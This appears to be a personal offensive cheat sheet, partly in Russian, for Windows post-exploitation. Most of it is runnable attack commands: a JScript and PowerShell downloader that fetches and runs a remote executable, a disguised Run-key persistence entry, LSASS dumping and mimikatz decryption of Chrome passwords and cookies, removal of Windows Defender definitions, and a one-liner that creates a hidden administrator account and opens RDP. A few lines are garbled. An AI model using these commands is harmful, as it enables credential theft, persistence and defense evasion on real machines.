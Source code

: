 
<p align="center">
  <body>
    <img src="2zHQ.gif" width="500" height="300">
  </body>
</p>

https://github.com/jreegun/Researches/tree/master/Exe%20Sideloading
https://youtu.be/3aZM0Rfjgy4

````
var  WinHttpReq  =  new  ActiveXObject ( "WinHttp.WinHttpRequest.5.1" ) ; 
WinHttpReq . Open ( "GET" ,  WScript . Arguments ( 0 ) ,  /*async=*/ false ) ; 
WinHttpReq . Send ( ) ; 
BinStream  =  new  ActiveXObject ( "ADODB.Stream" ) ; 
BinStream . Type  =  1 ;  BinStream . Open( ) ; 
BinStream . Write ( WinHttpReq . ResponseBody ) ; 
BinStream . SaveToFile ( "1.exe" ) ;

cscript /nologo 1.js http://192.168.1.192/Client.exe
````

````
WScript.Sleep(5000):Set objShell = WScript.CreateObject("WScript.Shell"):objShell.Run("start C:\Users\Public\putty.exe"), 0, True
````

````
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /f /v WinUpdater /t REG_SZ /d "%TEMP%\wncat.vbs"
````

````
aHR0cHM6Ly9zZWMubm1hc2suY24vYXJ0aWNsZV9jb250ZW50P2FfaWQ9YWQ1ZWI3NzQ1NDMxYzk4YzRiN2QxZWYyNzc0ZjI2NGI=

````
Анализируйте запросы ARP для определения взаимодействующих хостов и устаревших конфигураций сетевых адресов (SNAC)
https://github.com/arch4ngel/eavesarp


## make proxy in target PC

https://www.youtube.com/watch?v=ghZ8XK9zEfI<br>
proxy UP &
````
vim /etc/proxychains4.conf
proxychains4 nmap -A -F -sT -Pn 10.10.10.1/24 > nmap_res.txt
````


````
procdump.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::minidump lsass.dmpsekurlsa::dpapi

````
## Mimikatz Chrome-dump

````
mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotectbeacon> mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect
````
### Chrome cookies

````
 dpapi::chrome /in:"%localappdata%GoogleChromeUser DataDefaultCookies" /unprotect
````



## Download with Powershell

https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell

https://adamtheautomator.com/powershell-download-file/


````
Invoke-WebRequest -Uri $url -OutFile $output
````

````
Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
````

bYpASS

https://github.com/tokyoneon/Chimera



````
powershell.exe iwr [URL] -o C:\Users\Public\[NAME].exe; forfiles.exe /p c:\windows\system32 /m svchost.exe /c C:\Users\Public\[NAME]; timeout 2; del C:\Users\Public\[NAME].exe
````
````
https://cloud.mail.ru/public/yp5y/tod8RWQqv
````
````
https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters

посмотреть процессы:

tasklist /V
tasklist /SVC

посомтреть АВ\

WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
sc query windefend

удалить правила для ДЕФ

"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

посмотреть установленные программы

reg query HKEY_LOCAL_MACHINE\SOFTWARE

ПОРТЫ открытые:

netstat -ano

порты для программ:
netsh firewall show state
netsh firewall show config


включить РДП

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh firewall add portopening TCP 3389 "Remote Desktop"
::netsh firewall set service remotedesktop enable #I found that this line is not needed
::sc config TermService start= auto #I found that this line is not needed
::net start Termservice #I found that this line is not needed


net user hacker PASS /add & net localgroup administrators hacker /add & net localgroup "Remote Desktop Users" hacker /add & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall add portopening TCP 3389 "Remote Desktop" & netsh firewall set service remoteadmin enable

Авто загрузка управление

- https://www.thewindowsclub.com/manage-startup-items-windows-8

- https://www.techsupportall.com/how-to-disable-startup-programs-in-windows-10/#method4

-= https://community.spiceworks.com/topic/2140905-disabling-windows-startup-services-through-command-prompt

++ https://github.com/Faustvii/StartupManager
````
https://zer1t0.gitlab.io/posts/attacking_ad/
